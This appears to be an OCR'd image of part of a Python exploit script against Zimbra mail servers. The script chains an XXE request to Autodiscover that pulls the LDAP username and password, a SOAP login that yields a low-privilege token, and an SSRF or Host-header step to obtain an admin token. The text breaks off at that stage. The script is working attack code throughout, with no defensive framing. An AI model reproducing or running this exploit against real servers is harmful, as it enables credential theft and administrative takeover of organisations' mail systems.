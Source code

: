     #XXE stage
    headers = {
        "Content-Type":"application/xml"
    }
    print("[*] Get User Name/Password By XXE ")
    r = requests.post(base_url+"/Autodiscover/Autodiscover.xml",data=xxe_data,headers=headers,verify=False,timeout=15)
    #print r.text
    if 'response schema not available' not in r.text:
        print("don't have xxe")
        exit()

    #low_token Stage
    import re
    pattern_name = re.compile(r"&lt;key name=(\"|&quot;)zimbra_user(\"|&quot;)&gt;\n.*?&lt;value&gt;(.*?)&lt;\/value&gt;")
    pattern_password = re.compile(r"&lt;key name=(\"|&quot;)zimbra_ldap_password(\"|&quot;)&gt;\n.*?&lt;value&gt;(.*?)&lt;\/value&gt;")
    username = pattern_name.findall(r.text)[0][2]
    password = pattern_password.findall(r.text)[0][2]
    #print(username)
    #print(password)

    auth_body="""<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope">
       <soap:Header>
           <context xmlns="urn:zimbra">
               <userAgent name="ZimbraWebClient - SAF3 (Win)" version="5.0.15_GA_2851.RHEL5_64"/>
           </context>
       </soap:Header>
       <soap:Body>
         <AuthRequest xmlns="{xmlns}">
            <account by="adminName">{username}</account>
            <password>{password}</password>
         </AuthRequest>
       </soap:Body>
    </soap:Envelope>
    """

    #print("[*] Get Low Privilege Auth Token")

    #72行路径可能为/service/soap
    r=requests.post(base_url+"/service/admin/soap",data=auth_body.format(xmlns="urn:zimbraAccount",username=username,password=password),verify=False)

    pattern_auth_token=re.compile(r"<authToken>(.*?)</authToken>")

    low_priv_token = pattern_auth_token.findall(r.text)[0]

    #print(low_priv_token)

    # SSRF+Get Admin_Token Stage

    headers["Cookie"]="ZM_ADMIN_AUTH_TOKEN="+low_priv_token+";"
    headers["Host"]="foo:7071"
    #print("[*] Get Admin  Auth Token By SSRF")
    #r = requests.post(base_url+"/service/proxy?target=https://127.0.0.1:7071/service/admin/soap",data=auth_body.format(xmlns="urn:zimbraAdmin",username=username,password=password),headers=headers,verify=False)
    r = requests.post(base_url+"/service/admin/soap",data=auth_body.format(xmlns="urn:zimbraAdmin",username=username,password=password),headers=headers,verify=False)
    #若86行无法使用请使用85行
